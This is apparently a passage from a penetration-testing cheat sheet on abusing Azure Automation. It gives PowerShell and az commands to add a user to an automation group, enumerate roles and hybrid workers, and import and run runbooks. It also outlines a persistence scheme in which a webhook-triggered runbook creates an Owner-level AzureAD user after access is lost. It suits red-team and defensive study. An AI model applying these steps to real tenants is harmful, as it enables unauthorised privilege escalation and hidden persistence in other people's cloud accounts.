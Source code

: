 ⧉ Copied!

## Runbook Automation

### Create a Runbook

```powershell
# Check user right for automation
az extension add --upgrade -n automation
az automation account list # if it doesn't return anything the user is not a part of an Automation group
az ad signed-in-user list-owned-objects

# If the user is not part of an "Automation" group.
# Add him to a custom group , e.g: "Automation Admins"
Add-AzureADGroupMember -ObjectId <OBJID> -RefObjectId <REFOBJID> -Verbose

# Get the role of a user on the Automation account
# Contributor or higher = Can create and execute Runbooks
Get-AzRoleAssignment -Scope /subscriptions/<ID>/resourceGroups/<RG-NAME>/providers/Microsoft.Automation/automationAccounts/<AUTOMATION-ACCOUNT>

# List hybrid workers
Get-AzAutomationHybridWorkerGroup -AutomationAccountName <AUTOMATION-ACCOUNT> -ResourceGroupName <RG-NAME>

# Create a Powershell Runbook
PS C:\Tools> Import-AzAutomationRunbook -Name <RUNBOOK-NAME> -Path C:\Tools\username.ps1 -AutomationAccountName <AUTOMATION-ACCOUNT> -ResourceGroupName <RG-NAME> -Type PowerShell -Force -Verbose

# Publish the Runbook
Publish-AzAutomationRunbook -RunbookName <RUNBOOK-NAME> -AutomationAccountName <AUTOMATION-ACCOUNT> -ResourceGroupName <RG-NAME> -Verbose

# Start the Runbook
Start-AzAutomationRunbook -RunbookName <RUNBOOK-NAME> -RunOn Workergroup1 -AutomationAccountName <AUTOMATION-ACCOUNT> -ResourceGroupName <RG-NAME> -Verbose
```

⧉ Copied!

### Persistence via Automation accounts

- Create a new Automation Account
    - "Create Azure Run As account": Yes
- Import a new runbook that creates an AzureAD user with Owner permissions for the subscription*
    - Sample runbook for this Blog located here – https://github.com/NetSPI/MicroBurst
    - Publish the runbook
    - Add a webhook to the runbook
- Add the AzureAD module to the Automation account
    - Update the Azure Automation Modules
- Assign "User Administrator" and "Subscription Owner" rights to the automation account
- Eventually lose your access…
- Trigger the webhook with a post request to create the new user
    
